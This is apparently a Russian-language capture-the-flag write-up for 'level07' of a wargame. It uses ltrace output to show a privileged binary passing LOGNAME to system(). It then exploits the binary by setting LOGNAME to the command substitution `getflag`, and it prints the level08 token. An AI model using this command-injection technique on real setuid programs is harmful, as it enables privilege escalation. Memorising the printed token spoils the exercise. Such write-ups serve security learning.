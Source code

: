 1. Мы видим один исполнительный файл в исходной директории под именем level07
2. Запуск файла приводит к выводу названия - level07
3. ltrace ./level07:

__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                = 2007
geteuid()                                                = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
getenv("LOGNAME")                                        = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff3a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++

Видно, что LOGNAME содержит текст level07, а echo его выводит на экран. Значит, если подменить LOGNAME, то удастся получить флаг.
4. Подмена содержимого переменной среды LOGNAME
export LOGNAME=\`getflag\`
5. Запуск исполнительного файла теперь дает токен от level08: fiumuikeil55xe9cu4dood66h
